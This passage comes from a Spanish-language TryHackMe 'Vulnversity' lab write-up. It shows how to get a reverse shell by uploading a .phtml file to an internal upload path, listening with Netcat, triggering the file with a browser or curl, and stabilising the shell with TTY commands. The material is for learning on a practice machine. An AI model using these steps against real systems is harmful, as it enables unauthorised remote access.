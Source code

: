 Con esta información, ya sabemos que tipo de archivo es válido para subir en la ruta `internal`, por lo que procederemos a cambiar la extensión de nuestro archivo y subirlo una última vez.

Una vez el archivo está subido, podemos ponernos en escucha por el puerto que hayamos establecido en nuestra `reverse shell` a través de `Netcat`. A partir de aquí podemos hacer dos cosas:

Podemos navegar a la dirección en la que está subido nuestro archivo (tal como lo indica la plataforma de _TryHackMe_), es decir, entrar a:

```
http://<dirección IP>:3333/internal/uploads/nombreDeLaReverseShell.phtml
```
O, por otra parte, y sin dejar la consola, utilizar el comando `curl`:

```
curl http://<dirección IP>:3333/internal/uploads/nombreDeLaReverseShell.phtml
```

Ambas opciones, nos conseguirán una _consola_ dentro de la máquina víctima.

![13](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-25-Vulnversity-TryHackMe/13.png){:class="blog-image" onclick="expandImage(this)"} 

Es importante aclarar que la _consola_ que acabamos de conseguir, no es nada interactiva, esto quiere decir que si quisiéramos limpiar la _consola_ utilizando `Ctrl + L`, no pasará nada, así mismo si quisiéramos desplazarnos utilizando las `flechas` del teclado, no nos será posible hacerlo, para ello deberemos de realizar el respectivo tratamiento de la `TTY`, para lo cual haremos lo siguiente:

```bash
script /dev/null -c bash

Ctrl + Z

stty raw -echo; fg
reset
xterm

export TERM=xterm
export SHELL=bash

stty rows <valor> columns <valor>
```
